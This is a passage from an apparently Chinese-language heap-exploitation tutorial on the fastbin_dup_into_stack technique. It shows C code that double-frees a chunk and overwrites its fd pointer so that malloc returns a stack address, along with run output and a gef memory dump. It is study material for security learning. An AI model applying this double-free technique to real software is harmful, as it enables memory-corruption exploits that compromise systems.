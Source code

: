```c
    free(a);
    fprintf(stderr, "Then freeing another one %p.\n", b);
    free(b);
    fprintf(stderr, "Freeing the first one %p again.\n", a);
    free(a);

    fprintf(stderr, "Allocating 4 buffers.\n");
    unsigned long long *d = malloc(9);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
    fprintf(stderr, "4nd malloc(9) %p points to %p\n", d, &d);
    char *e = malloc(9);
    strcpy(e, "EEEEEEEE");
    fprintf(stderr, "5nd malloc(9) %p points to %s\n", e, e);
    char *f = malloc(9);
    strcpy(f, "FFFFFFFF");
    fprintf(stderr, "6rd malloc(9) %p points to %s\n", f, f);
    char *g = malloc(9);
    strcpy(g, "GGGGGGGG");
    fprintf(stderr, "7th malloc(9) %p points to %s\n", g, g);
}
```

```text
$ gcc -g fastbin_dup_into_stack.c
$ ./a.out
Allocating 3 buffers.
1st malloc(9) 0xcf2010 points to AAAAAAAA
2nd malloc(9) 0xcf2030 points to BBBBBBBB
3rd malloc(9) 0xcf2050 points to CCCCCCCC
Freeing the first one 0xcf2010.
Then freeing another one 0xcf2030.
Freeing the first one 0xcf2010 again.
Allocating 4 buffers.
4nd malloc(9) 0xcf2010 points to 0x7ffd1e0d48b0
5nd malloc(9) 0xcf2030 points to EEEEEEEE
6rd malloc(9) 0xcf2010 points to FFFFFFFF
7th malloc(9) 0x7ffd1e0d48b0 points to GGGGGGGG
```

这个程序展示了怎样通过修改 fd 指针，将其指向一个伪造的 free chunk，在伪造的地址处 malloc 出一个 chunk。该程序大部分内容都和上一个程序一样，漏洞也同样是 double-free，只有给 fd 填充的内容不一样。

三个 malloc 之后：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021 <-- chunk a
0x602010:   0x4141414141414141  0x0000000000000000
0x602020:   0x0000000000000000  0x0000000000000021 <-- chunk b
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000021 <-- chunk c
0x602050:   0x4343434343434343  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000020fa1 <-- top chunk
0x602070:   0x0000000000000000
```
